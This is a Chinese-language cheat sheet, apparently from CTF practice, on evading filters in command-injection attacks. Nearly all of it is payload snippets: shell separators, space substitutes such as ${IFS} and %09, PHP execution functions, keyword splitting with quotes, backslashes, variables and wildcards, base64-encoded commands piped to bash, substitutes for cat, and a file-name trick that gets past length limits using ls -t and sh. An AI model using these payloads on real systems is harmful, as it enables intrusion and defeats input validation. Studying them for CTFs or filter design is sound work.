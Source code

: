 # 命令执行绕过小技巧

## 管道符

> `|`直接执行后面的语句
> `||`如果前面命令是错的那么就执行后面的语句，否则只执行前面的语句
> `&`前面和后面命令都要执行，无论前面真假
> `&&`如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令

## 空格绕过

> ```
> >` `<` `<>` 重定向符
> `%09`(需要php环境)
> `${IFS}`
> `$IFS$9`
> `{cat,flag.php}` //用逗号实现了空格功能
> `%20`
> `%09
> 
> ```

1.空格可用%09 （不属于数字）
2.使用<>代替空格 ,<>和?同时使用不回显 所以用\代替？
3.$IFS符号如果是在当前目录读文件则中间要用’'来分隔一下,如果读其他路径下的如根目录 / 下的文件 则不用使用符分割,$IFS后边可以使用符号 但是不能直接跟字符 会显示无效命令

4.

## 命令执行函数

system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() 

## 黑名单绕过

拼接

> ```
> a=c;b=at;c=fl;d=ag;$a$b $c$d
> ```

base64编码

> `echo "Y2F0IGZsYWc="|base64 -d`
> `echo "Y2F0IGZsYWc="|base64 -d|bash` (在bash被过滤的情况下可尝试sh)

单引号、双引号

> ```
> c""at fl''ag
> ```

反斜线

> ```
> c\at fl\ag
> ```

正则 (假设/bin/cat: test: 是一个目录)

> ```
> /???/?[a][t] ?''?''?''?''`
> `/???/?at ????`
> `/???/?[a]''[t] ?''?''?''?''
> ```

$1、$2等和$@

$# 是传给脚本的参数个数
$0 是脚本本身的名字
$1 是传递给该shell脚本的第一个参数
$2 是传递给该shell脚本的第二个参数
$@ 是传给脚本的所有参数的列表
$* 是以一个单字符串显示所有向脚本传递的参数，与位置变量不同，参数可超过9个
$$ 是脚本运行的当前进程ID号
$? 是显示最后命令的退出状态，0表示没有错误，其他表示有错误

## cat被过滤

more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
grep：1、在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令：
grep test *file
strings

## 内敛执行

> cat$IFS$9`ls`
>
> cat$IFS$9$(ls)

(内联，就是将``或$()内命令的输出作为输入执行)

## 利用ls -t和>以及换行符绕过长度限制执行命令(文件构造绕过)

```ruby
root@kali:~/桌面# echo "flag{hahaha}" > flag.txt
root@kali:~/桌面# touch "ag"
root@kali:~/桌面# touch "fl\\"
root@kali:~/桌面# touch "t \\"
root@kali:~/桌面# touch "ca\\"
root@kali:~/桌面# ls -t
'ca\'  't \'  'fl\'   ag   flag
root@kali:~/桌面# ls -t >a     #将 ls -t 内容写入到a文件中
root@kali:~/桌面# sh a
a: 1: a: not found
flag{hahaha}
a: 6: flag.txt: not found
```

> `\`是指换行
> `ls -t`将文件按时间排序输出
> `sh`命令可以从一个文件中读取命令来执行


